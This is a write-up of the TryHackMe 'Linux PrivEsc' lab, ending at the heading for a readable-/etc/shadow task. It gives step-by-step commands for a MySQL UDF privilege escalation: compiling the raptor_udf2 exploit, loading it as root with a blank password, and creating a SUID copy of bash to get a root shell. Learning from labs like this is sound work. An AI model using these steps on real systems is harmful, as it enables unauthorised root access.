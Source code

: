 ```yaml
---
layout: post
title: TryHackMe - Linux PrivEsc
---
```


## [Task 1] Deploy the Vulnerable Debian VM
### 1. Deploy the machine and login to the "user" account using SSH.
### 2. Run the "id" command. What is the result?
```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```
## [Task 2] Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:
```
cd /home/user/tools/mysql-udf
```
Compile the raptor_udf2.c exploit code using the following commands:
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```

## [Task 3] Weak File Permissions - Readable /etc/shadow


